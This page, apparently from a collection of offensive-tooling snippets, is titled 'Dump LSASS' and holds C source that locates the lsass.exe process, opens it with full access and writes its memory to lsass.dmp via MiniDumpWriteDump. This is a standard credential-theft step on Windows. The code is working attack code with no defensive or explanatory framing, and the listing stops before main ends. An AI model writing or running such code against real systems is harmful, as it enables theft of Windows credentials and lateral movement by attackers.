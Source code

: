 # Dump LSASS

## C

```c
#include <stdio.h>
#include <windows.h>
#include <dbghelp.h>
#include <tlhelp32.h>

#pragma comment(lib, "dbghelp.lib")

DWORD getProcessIdentifer() {
    HANDLE handle_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    if(handle_snapshot) {
        PROCESSENTRY32 process_entry;
        if(Process32First(handle_snapshot,&process_entry)) {
            do {
                if (strcmp(process_entry.szExeFile, "lsass.exe") == 0) {
                    return process_entry.th32ProcessID;
                }
            } while(Process32Next(handle_snapshot, &process_entry));
            CloseHandle(handle_snapshot);
        }
    }

    return -1;
}

INT main(int argc, char const *argv[]) {
    BOOL handle_dump;
    DWORD process_id;
    HANDLE process_handle;
    HANDLE handle_output;

    process_id = getProcessIdentifer();
    if (process_id == -1) {
        printf("[!] Failed to find lsass process.\n");
        return -1;
    }

    handle_output = CreateFile("lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (handle_output == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to create file for lsass dump.\n");
        return -1;
    }

    process_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    if (process_handle == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to get handle on lsass.\n");
        return -1;
    }

    // create and write the dump to the file
    handle_dump = MiniDumpWriteDump(process_handle, process_id, handle_output, 0x00000002, NULL, NULL, NULL);
    if (!handle_dump) {
        printf("[!] Failed to dump lsass.\n");
        return -1;
    }

```